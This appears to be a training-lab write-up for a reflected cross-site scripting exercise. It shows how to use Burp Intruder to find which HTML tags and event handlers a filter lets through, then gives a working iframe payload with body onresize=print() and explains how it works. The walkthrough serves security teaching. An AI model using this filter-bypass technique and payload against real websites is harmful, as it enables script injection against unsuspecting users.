 ## Solution steps

- Open Burp Suite and set-up a proxy.
- Inject a standard XSS vector, such as: `<img src=1 onerror=print()>`
- Observe that this gets blocked.
- Open Burp's browser and use the search function in the lab. Send the resulting request to Burp Intruder.
- In Burp Intruder, replace the value of the search term with: <>
- Place the cursor between the angle brackets and click Add § to create a payload position. The value of the search term should now look like: <§§>
- Visit the XSS cheat sheet and click Copy tags to clipboard.
- In the Payloads side panel, under Payload configuration, click Paste to paste the list of tags into the payloads list. Start attack.
- When the attack is finished, review the results. Note that most payloads caused a `400` response, but the `body` payload caused a `200` response.
- Go back to Burp Intruder and replace your search term with: `<body%20=1>`
- Place the cursor before the `=` character and click Add `§` to create a payload position. The value of the search term should now look like: `<body%20§§=1>`
- Visit the XSS cheat sheet and click Copy events to clipboard.
- In the Payloads side panel, under Payload configuration, click Clear to remove the previous payloads. Then click Paste to paste the list of attributes into the payloads list. Click Start attack.
- When the attack is finished, review the results. Note that many paylaods caused `400` response while some of them caused `200` response including `onresize` payload.
- Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID: `<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>`
- Click Store and Deliver exploit to victim.

### Explanation

-  Inside the src URL (payload): `?search=%22%3E%3Cbody%20onresize=print()%3E`
-  When URL-decoded, it becomes: `?search="><body onresize=print()>`
-  So, the full iframe src becomes: `https://YOUR-LAB-ID.web-security-academy.net/?search="><body onresize=print()>`
-  `?search=">` → Closes any open attribute or string and breaks out into HTML context.
-  `<body onresize=print()>` → Injects a new `<body>` tag with an event handler.
-  `onresize=print()` → Calls `print()` when the body is resized (a browser built-in JS function that opens the print dialog).
-  Back to the iframe tag: `onload=this.style.width='100px'`
-  Once the iframe loads, this JS executes and changes the iframe's width to `100px`, likely to hide it visually.
